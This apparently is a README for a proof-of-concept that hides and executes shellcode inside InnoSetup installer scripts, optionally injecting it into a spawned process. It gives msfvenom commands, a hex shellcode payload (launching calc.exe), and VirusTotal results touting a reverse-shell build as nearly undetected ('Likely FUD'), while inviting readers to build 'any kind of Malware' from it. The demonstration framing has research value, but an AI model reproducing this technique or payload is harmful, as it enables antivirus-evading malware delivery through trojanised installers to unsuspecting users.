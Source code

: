 # InnoSetup Execute Shellcode PoC

![Screenshot 2021-07-21 at 16.05.10.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-21_at_16.05.10.png)

This proof of concept demonstrate how to take advantage of InnoSetup Scripting Engine to host local/remote process shellcode payload then execute.

The idea behind this concept is to demonstrate the dangerosity of (self) installers. Not only they can contain malicious programsn, they can also run native code through their scripting engines and evade AV detections because of their natural aspect.

The most difficult part was to understand how to use pointers/refs. Basically from this example, it is possible to create any kind of Malware from scratch (even more complex ones). Feel free to try, if you have any technical questions, feel free to ask for some help.

## Parameters

Parameters are located at the top of the InnoSetup Script File.

 * `SpawnNewProcess`: (1|0) : If set to `1`, payload will be stored and executed from a new process (default: notepad.exe). If set to `0`, the payload will be stored and executed from current InnoSetup Installer Process.
 * `SpawnProcessName`: (STR) : This parameter is only use if `SpawnNewProcess` parameter is set to `1`. Change this value with the desired process you want to spawn.
 * `verbose`: (1|0) : Define whether or not you want to output debug messages (Ex: from DbgView)
 * `Payload`: (HEX_STR) : Define the payload itself in hex format (aligned 2). Use the `-f hex` if using Msfvenom.

## Example

It is now very easy to create your own Setup with your own payload.

Just be sure to have your shellcode encoded in hex string then replace the `Payload` parameter with your payload.

An example with Msfvenom would be:

`msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex`

Example: `msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex`

![Screenshot 2021-07-21 at 16.04.41.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-21_at_16.04.41.png)

```
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

![Screenshot 2021-07-21 at 16.04.04.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-21_at_16.04.04.png)

Adjust other parameters if you want/need then you can build your setup application and enjoy the result.

Notice: If using `SpawnNewProcess`, I would highly recommend using the `ExitProcess` EXITFUNC method instead of `thread` to close the entired spawned process.

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

![Screenshot 2021-07-20 at 19.09.53.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.09.53.png)

## VirusTotal Score (UPDATE: 21 JULY 2021)

Bellow the result of a setup scan using a reverse shell payload from Msfvenom without any encoding schema:

https://www.virustotal.com/gui/file/2723ba8196721a3fd8b792b195dc20928d53d0e8b21c47da353b894cace847b9/detection

(4/69) - It evade all comonly used AV Software.
